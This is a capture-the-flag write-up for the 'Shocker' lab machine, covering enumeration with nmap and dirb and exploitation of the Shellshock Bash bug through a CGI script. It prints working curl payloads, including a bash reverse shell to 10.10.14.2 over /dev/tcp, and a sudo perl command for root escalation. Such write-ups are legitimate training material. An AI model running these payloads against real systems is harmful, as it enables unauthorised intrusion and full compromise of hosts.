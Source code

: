 # Shocker

# Enumeration

## Nmap

I start off with a simple nmap of the system. Looks like the system is running an Apache server over port 80 and OpenSSH over port 2222.

```bash
nmap -sC -sV shocker.htb > nmap.txt
```

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled.png)

## Website

### Page

Visiting the webpage I see a simple image of a bug saying “Don’t Bug Me!”

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%201.png)

Checking the source doesnt reveal any further information as well.

```html
<!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

### Dirb

Since I can’t find any giveaways on the page itself, I’ll run dirb to brute force some possible directories. I find a directory by the name of `cgi-bin/` which seems interesting to me, I should google this directory name and see if I can find any vulnerabilities.

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%202.png)

After doing some research, it seems that cgi-bin is a directory containing CGI scripts which can be used to call out to applications hosted on the server. 

After a bit more digging, it seems that CGI scripts are typically shell, cgi, or perl scripts. I will run dirb again against the cgi-bin directory, this time searching for shell scripts. This reveals `/cgi-bin/user.sh`

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%203.png)

Traveling to the address prompts me to download the script, which I do. I’ll cat the file out to see what its contents are. The contents look like the results of the `uptime` command. So this is probably a script ruinning on the box.

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%204.png)

## Shellshock

One of the [results](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) I ran into while searching for `cgi-bin/` vulnerabilities was for the ShellShock vulnerability. From what I can find it was a Bash vulnerability found in 2014 allowing for command execution due to how environment variables were handles.

The POC shown in this article shows how Bash will take `x='() { :;};’` as a function, and then execute the commands that come after it. For example with the following input:

```bash
$ env x='() { :;}; echo vulnerable' bash -c "echo test"
```

The output would be:

```bash
vulnerable
test
```

If an Apache server has CGI enabled, this can be exploited. To test this, I send a request testing if the system is vulnerable to shellshock:

```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%205.png)

Looks like we can leverage this exploit!

# Exploitation

## Shellshock Reverse Shell

I set up a netcat listener on port 1234 and send the following payload to receive a connection back.

```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.2/1234 0>&1" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%206.png)

We’re in!

## User Flag

Running `whoami` we can see we are the user shelly, first I’ll navigate to the users home directory and grab the user flag.

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%207.png)

# Privelege Escalation

## Sudo Commands

The first thing I always do to check for possible privelege escalation vectors is running the `sudo -l` command because of how quick it is. In this case it looks like shelly is able to run perl as root, this will be easy!

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%208.png)

## Perl

Perl is a simple binary to use for priv esc, but I’ll usually check [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) to see how a binary can be exploited, as there is typically more than one way.

Because Perl is not complicated, I can just use the `-e` flag to run it directly from command line. I’ll then use the `exec` command to launching a new shell as root.

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

With my new shell launched, I run `whoami` once more to reveal that I am now root.

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%209.png)

## Root Flag

Now all that needs to be done is navigate to the root directory and grab the root flag!

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%2010.png)